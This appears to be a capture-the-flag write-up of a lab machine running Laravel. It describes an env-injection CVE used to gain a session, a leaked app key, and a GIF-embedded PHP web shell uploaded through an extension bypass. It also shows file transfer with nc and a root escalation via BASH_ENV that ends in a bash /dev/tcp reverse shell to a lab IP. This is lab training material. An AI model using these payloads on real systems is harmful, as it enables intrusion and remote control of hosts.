

# Enumeration

`nmap -sS -sV -p- -v -oN ports.txt 10.10.11.67`

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u5 (protocol 2.0)
80/tcp open  http    nginx 1.22.1
```

On the main page, it is possible to send an address email to the app. I tried to send some inputs to make the app crash but didn't get any results.


So, I performed a directory enumeration and saw that `mailing` endpoint had a 405 error code.


I decided to investigate and discovered that the webapp uses Laravel:


# Arbitrary argument injection (CVE-2024-52301)

I did some research on the laravel version and encounter this [CVE](https://github.com/Nyamort/CVE-2024-52301). It is said that this vulnerability allows the modification of the `env` variable to an arbitrary value. Putting it into test, I got a change on the main page by adding `?--env=Local` in the URI:


With the directory enumeration, I found a login page:


Which I tried to make crash by sending the following payload:


Then, led to the leak of this piece the code. If the env variable is set to `preprod`, it will create a session:


So, by adding `?--env=preprod` to the url in the post request, I managed to get a valid session.


# False Lead

Having this session, the `/management/profile` endpoint was available. In this page, it was possible to update a new profile picture:


Since CVE-2025-27515 didn't have any exploit, I first try to mess with parameters:


It led to nothing so I changed of method. I decided to look for other endpoints.


The endpoint `info` is at first not available but if you add `?--env=preprod` as seen previously with the login form, you get the php info file:



And in this file, there is the app key used by laravel to encrypt the different cookies


I used this [tool](https://github.com/synacktiv/laravel-crypto-killer) to decrypt the session cookie but it was useless as I already was kind of "admin" and that I had to guess the session id if I wanted to change user.

# Improper Neutralization (CVE-2025-27515)

Coming back to this CVE, it says that this Laravel version doesn't handle file uploading as it should and that a bypass was possible. Looking for file upload bypasses, I found one interesting: https://github.com/thorsten/phpMyFAQ/security/advisories/GHSA-pwh2-fpfr-x5gf.
The objective (same method than png in fact) is to create a gif file and adding a "comment" in which a php payload is hidden.

`convert -size 100x100 xc:none meow.gif`

`gifsicle < meow.gif --comment '<?php if(isset($_REQUEST["cmd"])){ echo "<pre>"; $cmd = ($_REQUEST["cmd"]); system($cmd); echo "</pre>"; die; }?>' > meow.php`

Just uploading the php file wasn't enough to bypass the security. I tried to add a `.` at the end of the extension file to make it work:


It works fine but I preferred to use an interactive reverser shell:


# User Hish


My first thought was to retrieve the database from the application to obtain `hish` password.

`sqlite3 database.sqlite` (I used `nc` to transfer the file in my machine)


The only user availabe on the machine is `hish`, so I tried to crack his hash `$2y$12$QPbeVM.u7VbN9KCeAJ.JA.WfWQVWQg0LopB9ILcC7akZ.q641r1gi` with hashcat but it was taking too long.

At the same time, I saw that all files in the `/home/hish` directory was readable, especially the `.gnupg` directory which could be used to decipher the `keyvault.gpg` file present in the backup folder. 


In oder to decrypt the file I had to copy the .gnupg set up into a writeable directory which could then allow me to decrypt the keyvault file and retrieve the password:


I used the second password to authenticate as `hish`


# Root

This user can run a binary as root:


But, one interesting thing about these permissions is the possibility of setting the environment variable `BASH_ENV`. This variable can link to a source file that will be executed before the run binary.

I wrote a reverse shell into a file and executed the command:

```bash
#!/bin/bash
/bin/bash -i >& /dev/tcp/10.10.16.19/4444 0>&1
```


And here I got my reverse shell:

